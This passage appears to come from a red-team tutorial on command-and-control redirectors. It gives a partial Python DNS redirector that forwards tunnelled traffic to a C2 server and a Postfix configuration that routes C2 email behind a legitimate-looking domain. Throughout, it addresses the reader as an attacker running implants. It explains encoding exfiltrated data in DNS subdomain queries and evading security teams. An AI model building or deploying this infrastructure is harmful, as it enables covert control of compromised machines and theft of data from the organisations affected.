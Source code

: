 ```python
        reply.add_answer(dnslib.RR(qname, dnslib.QTYPE.A, rdata=dnslib.A("203.0.113.10")))
        server_sock.sendto(reply.pack(), client_addr)

def main():
    server_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server_sock.bind(("0.0.0.0", 53))
    
    print("DNS redirector running...")
    
    while True:
        data, client_addr = server_sock.recvfrom(1024)
        thread = threading.Thread(target=dns_handler, args=(data, client_addr, server_sock))
        thread.daemon = True
        thread.start()

if __name__ == "__main__":
    main()
```

This Python script:
- Listens for DNS queries on port 53
- Parses the queries 
- Looks for special patterns that indicate C2 traffic
- Forwards those to your actual C2 server
- Sends normal responses for everything else
- Uses threading to handle multiple requests

The beauty of DNS tunneling is hiding command and control data in what looks like regular DNS queries. Your implant might encode data in subdomain queries like `base64encodeddata123.exfil.c2domain.com`, and your redirector knows to forward these special queries.

### SMTP Redirectors

Email can be another sneaky way to run your C2. This works especially well when security teams are so focused on web traffic that they forget about email. SMTP redirectors forward specially crafted emails between your implants and C2 server.

Here's a simple Postfix setup to create an SMTP redirector:

```bash
# Postfix main.cf snippet
relay_domains = legitimate-company.com, c2domain.com
transport_maps = hash:/etc/postfix/transport

# /etc/postfix/transport
c2domain.com    smtp:[192.168.100.10]
```

What this does:
- Sets up Postfix to handle emails for two domains: a legit-looking company domain and your C2 domain
- Creates a routing rule that sends all C2 domain emails straight to your actual C2 server
- Looks like a normal mail server while secretly handling your C2 traffic
